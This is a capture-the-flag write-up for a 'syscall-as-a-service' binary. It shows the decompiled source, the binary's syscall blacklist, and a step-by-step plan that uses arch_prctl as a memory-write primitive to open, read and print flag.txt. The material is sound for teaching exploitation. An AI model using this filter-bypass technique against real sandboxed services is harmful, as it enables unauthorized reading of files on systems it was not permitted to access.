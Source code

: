 # Saas

Final code is at `soln.py`.
The binary itself is at `./saas`.
Constants for pwntools are obtained using `constant.c`.

Open the binary in Ghidra.
After appropriate tinkering with function types and variable renamings, you obtain this C source code:

```c
void main(void)
{
  int iVar1;
  long lVar2;
  undefined8 uVar3;
  long rax;
  long rdi;
  long rsi;
  long rdx;
  long r10;
  long r9;
  long r8;

  setup();
  puts("Welcome to syscall-as-a-service!\n");
  do {
    while( true ) {
      printf("Enter rax (decimal): ");
      __isoc99_scanf(&scanf_format_ld,&rax);
      iVar1 = blacklist(rax);
      if (iVar1 == 0) break;
      puts("Sorry syscall is blacklisted\n");
    }
    printf("Enter rdi (decimal): ");
    __isoc99_scanf(&scanf_format_ld,&rdi);
    printf("Enter rsi (decimal): ");
    __isoc99_scanf(&scanf_format_ld,&rsi);
    printf("Enter rdx (decimal): ");
    __isoc99_scanf(&scanf_format_ld,&rdx);
    printf("Enter r10 (decimal): ");
    __isoc99_scanf(&scanf_format_ld,&r10);
    printf("Enter r9 (decimal): ");
    __isoc99_scanf(&scanf_format_ld,&r9);
    printf("Enter r8 (decimal): ");
    uVar3 = 0x101466;
    __isoc99_scanf(&scanf_format_ld,&r8);
    lVar2 = syscall(rax,rdi,rsi,rdx,r10,r8,r9,uVar3);
    printf("Rax: 0x%lx\n\n",lVar2);
  } while( true );
}


int blacklist(long param_1)
{
  int result;
  long in_FS_OFFSET;
  int i;
  long local_48 [7];
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48[0] = 0x3b; /* execve */
  local_48[1] = 0x39; /* fork */
  local_48[2] = 0x38; /* clone */
  local_48[3] = 0x3e; /* kill */
  local_48[4] = 0x65; /* ptrace */
  local_48[5] = 200; /* tkill */
  local_48[6] = 0x142; /* stub_execveat */
  i = 0;
  do {
    if (6 < (uint)i) {
      result = 0;
LAB_001012e3:
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return result;
    }
    if (param_1 == local_48[i]) {
      result = 1;
      goto LAB_001012e3;
    }
    i = i + 1;
  } while( true );
}
```

Note that the binary basically allows you to perform any linux syscall except for 7 blacklisted ones.

A list of x64 Linux syscalls and their parameters can be found at https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

An interesting syscall is syscall 158 `sys_arch_prctl`.
This syscall allows you to write anywhere in the memory 4 bytes at a time by calling:
```c
arch_prctl(ARCH_SET_GS, value);
arch_prctl(ARCH_GET_GS, address);
```

Out of pure guesswork, the flag should be located at the same directory as the binary with the file name `flag.txt`

So the idea of the exploit in C is:
```c
int fd;
char flag[255];

fd = openat(AT_FDCWD, "flag.txt", O_RDONLY);
read(fd, flag, 255);
write(STDOUT_FILENO, flag, 255);
```

So the procedure to achieve this is:
1. Allocate memory on the heap
2. Write `"flag.txt"` to the heap
3. Call the `openat` syscall and get the file descriptor number
4. Call the `read` syscall to dump the content of the file into the heap
5. Call the `write` syscall to dump the content of the heap into stdout

Note that `"flag.txt"` has 9 bytes (null-terminated), so we need to write in 3 steps.

Expressed in terms of syscalls pseudocode:
1. `heap = brk(0);`: Obtain the base address of the heap
1. `brk(heap + 0x10000)`: Extend the heap by `0x10000` bytes
1. `arch_prctl(ARCH_SET_GS, "flag"); arch_prctl(ARCH_GET_GS, heap)`
1. `arch_prctl(ARCH_SET_GS, ".txt"); arch_prctl(ARCH_GET_GS, heap + 4)`
1. `arch_prctl(ARCH_SET_GS, "\0"); arch_prctl(ARCH_GET_GS, heap + 8)`
1. `fd = openat(AT_FDCWD, heap, O_RDONLY)`: open the file and get the file descriptor
1. `read(fd, heap, 0xFF)`: Read the content of the file into the heap
1. `write(STDOUT_FILENO, heap, 0xFF)`: Print the content of the heap

In the solution, I built abstraction to make a syscall as function `g`, and to write 4 bytes as function `write32`

